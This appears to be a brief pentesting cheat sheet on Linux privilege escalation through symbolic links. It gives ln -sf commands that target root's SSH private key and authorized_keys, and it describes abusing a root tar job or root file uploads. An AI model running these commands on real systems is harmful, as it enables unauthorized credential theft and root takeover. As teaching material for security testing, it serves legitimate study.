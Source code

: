 # PrivEsc via Link Symbolics

## Practice

Sometimes, as another user we can edit a file. However, if we have permissions to modify that file, we could add a symbolic link to point to another file where that user has permissions to read and/or edit it. Example:

```bash
ln -sf <PATH TO READ/MODIFY FILE> <FILE>
ln -sf <PATH TO DIRECTORY> <DIRECTORY>
# Examples:
ln -sf /root/.ssh/id_rsa <FILE>
ln -sf /root/.ssh/authorized_keys authorized_keys
ln -sf /root/ <DIRECTORY>
```

### Possible scenarios

* If there is a scheduled task that uses the `tar` command, we can make a symbolic link to a file/directory and when it is compressed as another user (as root), when decompressing it we will see the linked content. This is only useful if symbolic links are allowed with the tar command.
* If we can upload files as root but not overwrite them, we can create a symbolic link to a file that does not exist but allows us to write content to log in as root (for example: `/root/.ssh/authorized_keys`).

